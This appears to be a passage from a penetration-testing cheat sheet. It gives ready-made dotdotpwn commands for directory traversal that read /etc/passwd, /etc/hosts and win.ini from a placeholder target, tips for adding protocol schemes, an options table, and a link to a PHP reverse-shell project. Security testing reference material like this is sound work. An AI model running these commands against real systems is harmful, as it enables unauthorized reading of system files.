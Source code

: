 ### dotdotpwn

Traverse a path (e.g. `somesite.com/../../../etc/passwd`):

```fundamental
dotdotpwn -q -m http -S -o windows -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -q -m http -o unix -f /etc/passwd -k root -h somesite.com

dotdotpwn -q -m http-url -o unix -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'
```

Try to prepend a protocol such as `file://`, `gopher://`, `dict://`, `php://`, `jar://`, `ftp://`, `tftp://`, etc. to the file path; e.g `file://TRAVERSAL`.

Check some additional directory traversal tips at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). Credits to the author!

| Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix", or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot(at)dot.pwn') |
| -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

### Web Shells

Find out more about PHP shells from my other [project](https://github.com/ivan-sincek/php-reverse-shell).
